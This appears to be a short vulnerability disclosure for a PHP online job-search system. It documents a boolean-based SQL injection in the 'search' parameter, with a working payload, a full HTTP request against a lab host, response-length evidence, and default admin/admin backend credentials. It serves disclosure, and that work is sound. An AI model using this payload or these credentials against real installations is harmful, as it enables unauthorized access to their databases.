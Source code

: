 # Complete Online Job Search System v1.0 has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/index.php?q=viewjob&search=

Vulnerability location: /eris/index.php?q=viewjob&search=, search

Current database name: erisdb ,length is 6

[+] Payload: /eris/index.php?q=viewjob&search=1%27%20and%20length(database())=6--+ // Leak place ---> search

```sql
GET /eris/index.php?q=viewjob&search=1%27%20and%20length(database())=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

When length (database ()) = 5, Content-Length: 16795
![image](https://user-images.githubusercontent.com/54017627/170848952-3d0644ef-9b6d-4cc2-9432-13ce49e9cb83.png)

![image](https://user-images.githubusercontent.com/54017627/170848965-ddcb02d2-99b8-4a11-8ba7-515234095973.png)

When length (database ()) = 6, Content-Length: 20558
![image](https://user-images.githubusercontent.com/54017627/170848949-ee172cda-db44-4b6a-bae2-87bc20548121.png)

![image](https://user-images.githubusercontent.com/54017627/170848957-b26f6391-8150-4cc4-960a-24c95b4bf1c9.png)
